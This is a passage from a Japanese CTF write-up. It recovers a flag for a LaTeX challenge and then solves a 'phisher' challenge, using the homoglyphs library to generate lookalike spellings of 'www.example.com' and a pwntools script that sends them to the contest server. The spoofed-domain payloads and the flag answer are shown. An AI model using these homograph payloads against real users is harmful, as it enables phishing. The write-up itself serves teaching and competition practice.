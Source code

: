 `ctf4b15˙73x˙pr0n0unc3d˙ch0u?`

おそらく`˙`は`\catcode`の影響でエスケープされた文字であると推測ができ、`ctf4b`の直後と末尾に`{`, `}`が入るだろうと推測ができる。おそらくLaTeXの`{`や`}`は特殊記号であるため、うまく表示できなかったものと判断する。

よってフラグは以下の通りである。

`ctf4b{15_73x_pr0n0unc3d_ch0u?}`

## misc

### phisher

ホモグラフ攻撃を行う問題。`www.example.com`の全ての文字を`www.example.com`に見えるようにし、かつ`www.example.com`ではない文字列を作成する。
例えば、`ė`は`e`のように見えるが、`ė`は`e`ではない。

`homoglyphs attack generator` とかで検索するとたくさん出てくるが、それらを色々使用して、ホモグラフ攻撃が刺さる文字を1文字ずつ特定する。`homoglyphs`というツールもある。

```py
import homoglyphs as hg
li = hg.Homoglyphs(categories=('LATIN', 'COMMON', 'CYRILLIC')).get_combinations("w")
```

まずは`w`から順にホモグラフリストを作成する。ホモグラフリストを用いてペイロードを生成する。こんな感じに。

```txt
ᴡᴡᴡ․E×àmрⅠe.com
ᴡᴡᴡ․È×àmрⅠe.com
ᴡᴡᴡ․É×àmрⅠe.com
ᴡᴡᴡ․Ê×àmрⅠe.com
ᴡᴡᴡ․Ë×àmрⅠe.com
ᴡᴡᴡ․é×àmрⅠe.com
ᴡᴡᴡ․ê×àmрⅠe.com
ᴡᴡᴡ․ë×àmрⅠe.com
ᴡᴡᴡ․Ē×àmрⅠe.com
ᴡᴡᴡ․ē×àmрⅠe.com
ᴡᴡᴡ․Ĕ×àmрⅠe.com
```

そしたらそれぞれのペイロードをサーバに送信する。

```py
from pwn import *

def read_file(path: str):
    with open(path) as f:
        return f.read()

payloads = read_file("payloads.txt").split("\n")

for i, payload in enumerate(payloads):
    print(i, payload)
    p = remote('phisher.quals.beginners.seccon.jp', 44322)
    ret = p.recvuntil('FQDN: ')
    p.sendline(payload.encode('utf-8'))

    ret = p.recv()
    print(ret)
```
